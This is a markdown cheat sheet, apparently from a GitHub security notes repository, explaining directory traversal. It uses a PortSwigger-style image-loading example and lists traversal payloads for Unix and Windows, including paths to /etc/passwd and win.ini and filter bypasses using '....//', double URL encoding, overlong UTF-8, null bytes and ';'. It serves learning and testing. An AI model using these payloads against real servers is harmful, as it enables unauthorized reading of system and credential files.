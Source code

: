  # Directory traversal

> Directory traversal (also known as file path traversal) is a web security vulnerability that allows an attacker to read arbitrary files on the server that is running an application. This might include application code and data, credentials for back-end systems, and sensitive operating system files. In some cases, an attacker might be able to write to arbitrary files on the server, allowing them to modify application data or behavior, and ultimately take full control of the server.

## Summary
- [Directory traversal](#directory-traversal)
  - [Summary](#summary)
  - [Exploits](#exploits)
    - [Basic Injections](#basic-injections)
      - [Unix-based OS](#unix-based-os)
      - [Windows](#windows)
      - [Bypass "../" filter with "....//" or "....\ /"](#bypass-%22%22-filter-with-%22%22-or-%22-%22)
      - [Bypass "../" filter with ..%c0%af or ..%252f](#bypass-%22%22-filter-with-c0af-or-252f)
      - [Using full path](#using-full-path)
      - [Bypass with null byte](#bypass-with-null-byte)
      - [Double URL encoding](#double-url-encoding)
      - [Bypass "../" filter with ";"](#bypass-%22%22-filter-with-%22%22)
  - [References](#references)

## Exploits
:fire: **example:**

> Consider a shopping application that displays images of items for sale. Images are loaded via some HTML like the following:

```bash
<img src="/loadImage?filename=218.png">
```
>The loadImage URL takes a filename parameter and returns the contents of the specified file. The image files themselves are stored on disk in the location /var/www/images/. To return an image, the application appends the requested filename to this base directory and uses a filesystem API to read the contents of the file. In the above case, the application reads from the following file path:

>/var/www/images/218.png 

if you right click on image in your browser then => view image you may get a link like this
```bash
https://sub.web-security-academy.net/image?filename=218.png
```
>The application implements no defenses against directory traversal attacks, so an attacker can request the following URL to retrieve an arbitrary file from the server's filesystem: 

```bash
https://sub.web-security-academy.net/image?filename=../../../etc/passwd
```

### Basic Injections
**note**
```bash
/ = Root directory
../ = Parent of current directory
../../ = Two directories backwards
../../../ = three directories backwards
```

#### Unix-based OS

```bash
/etc/passwd 
../../../etc/passwd 
```

#### Windows

> both ../ and ..\ are valid directory traversal sequences

```bash
..\..\..\windows\win.ini
```
### Bypass "../" filter with "....//" or "....\ /"

```bash
....//....//....//etc/passwd
....\/....\/....\/etc/passwd
```
### Bypass "../" filter with ..%c0%af or ..%252f

```bash
..%252f..%252f..%252fetc/passwd
..%c0%af..%c0%af..%c0%afetc/passwd
```
### Using full path 
```bash
/var/www/images/../../../etc/passwd
```

### Bypass with null byte

```bash
../../../etc/passwd%00.png
```

### Double URL encoding

```bash
. = %252e
/ = %252f
\ = %255c
```

### Bypass "../" filter with ";"

```bash
..;/
```


## References
* [Portswigger](https://portswigger.net/web-security/file-path-traversal)

* [PayloadsAllTheThings - By swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)
* [@Jhaddix](https://twitter.com/Jhaddix/status/1235161881301512194)
